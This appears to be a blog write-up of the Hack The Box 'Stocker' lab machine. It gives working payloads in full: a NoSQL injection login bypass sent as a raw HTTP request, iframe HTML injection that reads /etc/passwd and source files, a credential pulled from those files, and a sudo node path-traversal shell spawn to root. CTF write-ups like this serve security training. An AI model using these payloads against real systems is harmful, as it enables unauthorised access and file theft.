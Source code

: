 ```yaml
---
layout: post
title: "HTB: Stocker"
author: Andrew Cherney
date: 2023-07-16 11:44:17
tags: htb easy-box
icon: "assets/icons/stocker.png"
post_description: "Webdevs will cry after seeing this box. Imagine sanitizing your json that interacts with your API, or not using a vulnerable login portal. A healthy lack of trust in webdevs is all you need to hack this box."
---
```


<h1>Summary</h1>

{{ page.post_description }}

<h1>Enumeration</h1>

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/Stocker]
└──╼ $nmap -sC 10.10.11.196
Starting Nmap 7.92 ( https://nmap.org ) at 2023-02-25 10:51 CST
Nmap scan report for 10.10.11.196
Host is up (0.053s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
|_ssh-hostkey: ERROR: Script execution failed (use -d to debug)
80/tcp open  http
|_http-title: Did not follow redirect to http://stocker.htb
```

<h2>Port 80 - http</h2>

{% include img_link src="/img/stocker/Stocker_Front_Page" alt="Stocker_front_page" ext="png" trunc=600 %}

I look around and toss some scans at the site. There is clear reference to another site which serves as a shop, so I know there is some way to get to it. What ends up landing is my gobuster scan to find subdomains on the same host IP. 

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/Stocker]
└──╼ $gobuster vhost -u http://stocker.htb -w /opt/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:          http://stocker.htb
[+] Method:       GET
[+] Threads:      10
[+] Wordlist:     /opt/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt
[+] User Agent:   gobuster/3.1.0
[+] Timeout:      10s
===============================================================
2023/02/25 12:05:55 Starting gobuster in VHOST enumeration mode
===============================================================
Found: dev.stocker.htb (Status: 302) [Size: 28]
```

<h2>dev.stocker.htb</h2>

![dev login](/img/stocker/Stocker_dev_login.png)

Round 2: time for some more scans and enumeration. There happens to be a cookie associated to this subdomain, with a **connect.sid** variable. From what I can tell it is a cookie set in the initial connection by Express. 

<h3>noSQL</h3>

In testing for database frameworks I come across [this noSQL injection for a login portal](https://book.hacktricks.xyz/pentesting-web/nosql-injection#basic-authentication-bypass) where if you send json with operators equal to null it bypasses the login check and lets you in. 

```
POST /login HTTP/1.1
Host: dev.stocker.htb
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
Content-Length: 19
Origin: http://dev.stocker.htb
DNT: 1
Connection: close
Referer: http://dev.stocker.htb/login
Cookie: connect.sid=s%3AtDuWaN_AP-vy7ZNHLP3D4vhJbpWFoDrt.aKM4RjmXYuVZrkQunrIYT00O8mug4QjJItsnc73l%2F2A
Upgrade-Insecure-Requests: 1

{"username": {"$ne": null}, "password": {"$ne": null} }
```

<h2>Stockers Store</h2>

{% include img_link src="/img/stocker/Stocker_stock_page" alt="store_page" ext="png" trunc=600 %}

Now we are met with a store page that gives us the functionality of adding items to a card and purchasing the items, then we have the option of viewing the purchase order. Inspecting the actual packet which sends the purchase request there is json which defines each item and a post request is then made to **/api/order**.

<h1>User as angoose</h1>

<h2>html injection: iframes</h2>

The purchase order could let us inject html and read local files with iframes. Let's try to use 

```json
{"basket":[{"_id":"638f116eeb060210cbd83a8f","title":"<iframe src=file:///etc/passwd width=1000px height=1000px></iframe>","description":"It's a rubbish bin.","image":"bin.jpg","price":76,"currentStock":15,"__v":0,"amount":1}]}
```

![purchase order etc passwd](/img/stocker/Stocker_iframe_etc_passwd.png)

Local file read attained. Now I can change the source to **src=file:///var/www/dev/index.js** and read the index file for any reference to databases or other gold nuggets.

![index.js](/img/stocker/Stocker_index_js.png)

Oh, well that is simple. User angoose with password **IHeardPassphrasesArePrettySecure**.

```bash
┌─[✗]─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/Stocker]
└──╼ $ssh angoose@stocker.htb
angoose@stocker:~$ cat user.txt
7721f67edaa172------------------
```

<h1>Root</h1>

<h2>Sudo perms</h2>

```bash
angoose@stocker:~$ sudo -l
Matching Defaults entries for angoose on stocker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User angoose may run the following commands on stocker:
    (ALL) /usr/bin/node /usr/local/scripts/*.js
angoose@stocker:~$ touch /usr/local/scripts/test.js
touch: cannot touch '/usr/local/scripts/test.js': Permission denied
```

GFTOBins has a sudo to root node command using <code>require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})</code> as the shell spawn within javascript. The last part to tie this together is using directory traversal to head to a writable directory. Creating a file named **shell.js** in the angoose home directory I run the sudo command: 

```bash
angoose@stocker:~$ sudo node /usr/local/scripts/../../../../home/angoose/shell.js
# cat /root/root.txt
2715c19b73755-------------------
```
